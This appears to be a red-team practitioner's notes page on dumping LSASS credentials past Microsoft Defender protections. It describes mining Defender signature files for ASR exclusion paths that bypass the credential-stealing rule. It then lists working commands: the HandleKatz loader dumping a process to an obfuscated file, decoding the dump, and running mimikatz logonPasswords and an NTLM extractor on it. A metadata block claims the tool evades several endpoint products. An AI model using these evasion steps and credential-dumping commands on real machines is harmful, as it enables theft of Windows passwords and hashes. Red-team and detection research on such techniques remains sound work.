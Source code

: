 # Handlekatz

So, how do you go about dumping lsass.exe on a box protected with MDE and ASR? Well, fortunately you can leverage a variety of whitelisted paths within the Defender ASR rules that help you achieve this. After finding a whitelisted exclusion path for the ASR rule you want to bypass, simply run your executable from that path!
Windows Defender signatures/rules are stored in VDM containers. Many of them are just Lua script files. It’s possible to use a tool such as WDExtract to decrypt and extract all the PE images from these containers. By analyzing the extracted VDM you can pull whitelisted exclusion paths for ASR rules.
I will now demonstrate a very quick, hacky way to quickly get an updated list of potential exclusion paths for particular ASR rules.
Let’s pick on the ASR rule for “Block credential stealing from the Windows local security authority subsystem”.
Here is a link to the particular ruleset on MSDN. Here you can see that the ASR rule is tied to a particular GUID, in this case 9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2.
This rule can be enabled on your machine with the following PowerShell script: Set-MpPreference -AttackSurfaceReductionRules_Ids 9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2 -AttackSurfaceReductionRules_Actions Enabled
* First, we need to locate the Defender signature files. You can usually find these in the following location: C:\ProgramData\Microsoft\Windows Defender\Definition Updates\Backup
* In our case, we are primarily interested in the mpasbase.vdm file.
* Let’s extract the file using WDExtract: wdextract64.exe mpasbase.vdm
* Open the extracted file mpasbase.vdm.extracted in a Hex Editor, such as HxD.
* Search for the GUID of the ASR rule you want to investigate:
* Scroll down slightly to see the list of exclusions and extract the data:
It’s important to keep in mind that the list of paths you may see here in the hex dump are not always exclusions. They can be part of other paths listed for ASR rules such as Monitored Locations. You’ll need to do some testing/investigating to confirm if you are just naivley using content from the hex dump.
Ultimately, this gives us a list of excluded paths that are allowed to perform lsass.exe dumps even with the ASR rule enabled
https://adamsvoboda.net/extracting-asr-rules/

## [[LSASS dumping]]
*Make all* to build HandleKatzPIC.exe, HandleKatz.bin and loader.exe`
Loader implements a sample loader for HandleKatz:
> loader.exe --pid:7331 --outfile:C:\Temp\dump.obfuscated
> python3 /mnt/c/Users/patri/source/repos/HandleKatz/Decoder.py -i "/mnt/c/Users/patri/Downloads
don/sql2.bin" -o "/mnt/c/Users/patri/Downloads/sql2.dmp"
> .\mimikatz.exe "log C:\Users\patri\Downloads\log.txt" "sekurlsa::minidump C:\Users\patri\Downloads\sql2.bin" "sekurlsa::logonPasswords"
> C:\Users\patri\Documents\Red-Teaming\credentials\KatzKatz-ExtractNTLM\katzkatz.py -f C:\Users\patri\Downloads\Garmaredon\log.txt

```meta
requirements: 
results: 
opsec: 
oss: #win
source: https://github.com/codewhitesec/HandleKatz
description: This tool was implemented as part of our Brucon2021 conference talk and demonstrates the usage of cloned handles to Lsass in order to create an obfuscated memory dump of the same.
undetected:  MDE, BitDefender, Cylance
```